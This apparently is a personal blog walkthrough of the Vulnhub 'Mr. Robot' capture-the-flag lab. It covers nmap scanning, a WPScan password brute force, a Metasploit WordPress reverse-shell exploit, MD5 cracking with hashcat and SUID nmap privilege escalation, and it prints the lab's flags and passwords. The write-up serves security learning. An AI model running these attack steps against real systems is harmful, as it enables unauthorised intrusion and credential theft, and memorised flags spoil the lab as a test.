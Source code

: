 # Mr Robot

First Vulnhub box coming up in the books!

Kicking it off with [Mr. Robot](https://www.vulnhub.com/entry/mr-robot-1,151/). Being super new to a lot of the "open" systems that are vulnerable, I had a tough time learning how to segment my network in a way that would allow my attacking box to be on my hosts network, while also being able to attack the exploitable box which is operating in its own segemented network.

We will find out more about that short process in another post.

So how do we get in? My friends told me, you have to "break" your way in. Time to "know your enemy" or in this case, "exploit". I kick off the below nmap scan:

```bash
nmap -sV 10.10.0.0/24
```

I used the above range as I know that's the IP address range within which I set my vulnerable box to sit in.

I get an IP of 10.10.0.130, with the following ports showing as open:

```bash
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```

With this, we can tell that there *should* be a website open and running. Since both 80 and 443 are operable, let's check it out. I looked over 10.10.0.130/robots.txt after having visited the initial site we see a nice little screen with references to the show.

![Mr Robot site](/images/2020-10-04-21-30-50.png)

Having had previous experience with web apps and application security, I know one of the first places you should look, or at least look for, is robots.txt. Should I be damned, there is a robots.txt present which provides the following:

```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

When you view the site for [key-1-of-3.txt](http://10.10.0.130/key-1-of-3.txt) we get the following flag:
073403c8a58a1f80d943455fb30724b9

## Now on to flag 2:

I ended up breaking out of the front page by going to site/question which came up with a wordpress hosted site. I see there's a login available at [http://10.10.0.130/wp-login.php](http://10.10.0.130/wp-login.php)

Now to try and get us a login!

Let's pull down our dictionary list if we haven't already, then my friends mentioned to run the following:

```bash
sort fsocity.dic
cat -n fsocity.dic | uniq > newDic.dic
```

The reason we did this was due to the initial .dic file has 850,000+ lines of "passwords". The above line(s) will go through and sort the lines alphabetically, we then take this list and pull out any duplicate lines, then output it into a new file so we leave our initial list untouched.

Now, onto exploitation! We know this is a WordPress site, let's check out WPScan.

```bash
wpscan --url 10.10.0.130
```

We see the version of WordPress listed as:
WordPress version 4.3.1 identified (Insecure, released on 2015-09-15)

However, my friends mentioned the following command set:

```bash
wpscan --url 10.10.0.130 -U elliot -P newDic.dic
```

This would perform a brute-force attack against the site using the newDic password list we obtained when we found flag 2.

We get the following information for elliot

|username|password|
|---|---|
|elliot|ER28-0652|

We go through and get our meterpreter session

```bash
msfconsole
search wordpress 4.3
use 80
```

The reason I am using exploit 80 - *unix/webapp/wp_admin_shell_upload* is we're aiming to get a reverse shell into the server hosts system.

Next we have to setup a few of our options, in this case it seems decently wise to run:

```bash
show advanced
```

I setup my options similar to the following:

|command|option|
|---|---|
|set rhost | 10.0.0.128 |
|set lhost | 10.0.0.129 | 
|set username | elliot |
|set password | ER28-0652 |


What ends up happening if we set our options as we have above, is we then get a check saying *Exploit aborted due to failure: not-found: The target does not appear to be using Wordpress*

When we run `show advanced` it gives us an option for *wpcheck*. Let's go ahead and set this as well.

|command|option|
|---|---|
|set wpcheck | false |

Now we can run our exploit.

```bash
exploit
```

Give it a short moment and we should then get the response that our Meterpreter sessions 1 is open.

It seems that we don't have a fully interactive shell yet for our session. Using the following resource from [ropnop.com](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) we ran the following lines.

```bash
shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

Where do we go from here? Let's check out some of the users in /etc/passwd/ see who all has a login shell at their disposal.

```bash
cat /etc/passwd
```

Looking through the list we see a few potential targets:

```bash
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

I ran `ls /home/` to see who all has an available and existing user directory and the only result turns out to be none other than the user *robot*.

Let's see what kind of useful information they have for our disposal.

We can see the flag file exists, but we don't have access due to us not actually having read permissions. However, we **are** able to see the contents for the password.raw-md5 file.

```bash
cd /home/robot
cat *
cat: key-2-of-3.txt: Permission denied
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Let's open up another tab in our terminal on our attacking system and run hashcat:

```bash
hashcat -m 0 c3fcd3d76192e4007dfb496cca67e13b /usr/share/wordlists/rockyou.txt
```

Inversely we could also use [crackstation](https://crackstation.net/). After a couple of moments the process completes and gives us the password for the user `robot`.

```bash
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
su robot
```

Type in the password, and let's open up the flag file to get flag number 2.

flag2 - 822c73956184f694993bede3eb39f959

## Flag 3 - Final one

To be honest, I had no idea where / how to work on getting some privilege escalation done in order to get us to root. One of my teammates suggested nmap.

We went through it and were able to get an interactive privileged session we could escape which allowed us to have a root owned shell.

Long story short, there's a SUID permission which we can use the following search to find:

```bash
find / -perm -u=s -type f 2>/dev/null
```

You can find more information on SUID permissions on the below site:
[https://pentestlab.blog/](https://pentestlab.blog/2017/09/25/suid-executables/)

An example they used was nmap. Easy enough to say, that's what we will be using here as well.

```bash
nmap --interactive
nmap> !sh
#whoami
root
#
```

Now where could that last flag be? 🤔 No place like home!

```bash
cat /root/*
```

flag3 - 04787ddef27c3dee1ee161b21670b4e4